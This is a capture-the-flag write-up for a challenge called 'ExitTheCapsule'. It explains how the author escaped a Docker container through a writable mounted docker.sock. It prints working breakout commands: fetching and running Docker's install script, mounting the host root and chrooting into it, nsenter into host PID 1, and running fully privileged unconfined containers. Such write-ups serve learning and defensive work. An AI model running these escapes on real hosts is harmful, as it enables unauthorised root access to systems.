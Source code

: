 # ExitTheCapsule


## Category

> System

## Description

> Arriverez-vous à vous échapper du conteneur pour trouver le flag ?

## Link

*Access to a Docker through Web SSH*

## Difficulty

**EASY** - 50 points

- Author: **Sysdream**
---

![img.png](img.png)

## Write up

*NB: I am writing this WU after the CTF was closed, and therefore, and no more access to machines.*

### What's a sock ?

I already did this kind of Docker Escape/Breakout before, using this [Hacktricks book](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).

This time, running all the command and tests it recommends, without thinking a little, didn't work.

The very first entry point, was to look for **mounted points**, using `df` or `mount -l` for example, to recover access from host.

{{< admonition info "ChatGPT explanation ('cause i'm dumb)" false >}}
In Linux, a mount point is a directory where an additional file system is attached, integrating it into the overall file system hierarchy. In the context of containers, mounting points are locations inside the container's file system where external resources, such as volumes or host directories, are attached, enabling data sharing between the container and the host. This facilitates data persistence and sharing between the container and its host environmen{{</ admonition >}}

I cannot share it or describe all of them here, but I know that one of the mounted point was suspect. There was a ``/run/docker.sock`` mounted on a `tmpfs` filesystem, with write and read permissions.

In other words: **we had access to the docker socket of the host**.

{{< admonition info "ChatGPT explanation ('cause i'm still dumb)" >}}
The docker.sock file is a Unix socket that allows communication between the Docker daemon and Docker client or other Docker-related tools. 
{{</ admonition >}}

I was then looking to find how to exploit it, using docker command.

### Docker to escape Docker

First step was to install docker inside the container (🤯) using these steps:
```bash
wget https://get.docker.com -O install.sh
chmod +x install.sh
./install.sh
```

Now that we have docker, I was able to use [this trick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#mounted-docker-socket-escape) from the book above:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:16.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

And then, we magically were controlling the host!

The Last step was to find the flag, using this command, for example:

```bash
# Find all the files that contains 'flag' from the root / and do not output errors (2)
find / -name "*flag*" 2>/dev/null
```

Lots of results, but a ``/var/flag.txt`` kept my attention.

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `MALICE{I Didn't Save The Flag Lol}`
{{< /admonition >}}

